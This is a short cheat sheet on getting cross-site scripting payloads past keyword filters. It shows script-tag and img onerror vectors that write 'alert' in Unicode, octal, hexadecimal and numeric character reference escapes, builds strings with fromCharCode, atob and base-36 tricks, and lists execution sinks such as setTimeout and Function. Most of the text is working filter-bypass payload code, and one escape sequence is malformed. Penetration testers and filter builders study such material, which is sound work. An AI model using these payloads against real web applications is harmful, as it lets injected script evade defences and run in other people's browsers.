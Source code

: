 There are filters that focuses on blocking the user of certain keywords, such as `alert`, `javascript`, `eval`, etc...
## Character Escaping via Unicode
Here we see Unicode escaping without using native functions:
```javascript
<script>\u0061lert(1)</script>
<script>\u0061\u006\u0065\u0072\u0074(1)</script>
```
Here we see Unicode escaping using native functions.
```javascript
<script>eval("\u0061lert(1)")</script>
<script>eval("\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029")</script>
```
## Character Escaping via Decimal, Octal, Hexadecimal
If the filtered vector is within a string, in addition to Unicode, there are multiple escapes we may adopt:
- `<img src=x onerror="\u0061lert(1)"/>`
- `<img src=x onerror="eval('\141lert(1)')"/>` using Octal escape
- `<img src=x onerror="eval('\x61lert(1)')"/>` using Hexadecimal escape
- `<img src=x onerror="&#x0061;lert(1)"/>` using Hexadecimal NCR
- `<img src=x onerror="&#97;lert(1)"/>` using Decimal NCR
- `<img src=x onerror="eval('\a\l\ert\(1\)')"/>` using Superfluous escapes characters
>Note: NCR means Numeric Character Reference

Finally, all character escaping can stay together, for example:
```txt
<img src=x onerror="\u0065val('\141\u006c&#101;&#x0072t\(&#49)')"/>
```
## Constructing Strings
Constructing strings can help in bypassing filters. For example, if the usual `alert` keyword is blocked, most likely `"ale"+"rt"` is note detected.

JavaScript has several functions useful to create strings:
```javascript
/ale/.source+/rt/.source
String.fromCharCode(97,108,101,114,116)
atob("YWxlcnQ=")
177985081..toString(36)
```
## Execution Sinks
Technically, functions that parse string as JavaScript code are called execution sinks, and JavaScript offers several alternatives. Below are some examples of sinks:
```javascript
setTimeout("JSCode") //all browsers
setInterval("JSCode") //all browsers
setImmediate("JSCode") //IE 10+
Function("JSCode") //all browsers
```